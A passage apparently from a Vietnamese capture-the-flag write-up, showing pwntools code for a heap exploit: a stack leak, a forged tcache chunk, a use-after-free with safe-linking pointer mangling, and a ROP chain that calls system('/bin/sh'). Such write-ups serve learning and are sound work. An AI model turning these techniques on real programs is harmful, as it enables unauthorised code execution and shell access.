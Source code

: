```python
create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
create(0x50, b'a\n') # 5
stack = gift()  
info("Stack: " + hex(stack))
```

## Fake chunk
```python
payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```
## Free fake chunk
- Mục đích free 2 chunk 5 6 để tăng biến count trong tcache, khi unlink ta còn lượt count để malloc
```python
remove(5)
remove(6)
remove(17)
```
## UAF
```python
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0, # ret main ^ fake chunk >> 12
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```
## ROP
- Ta có option 5 để kết thúc chương trình nên mình chọn nó để ROP
```python
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack, 
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
```
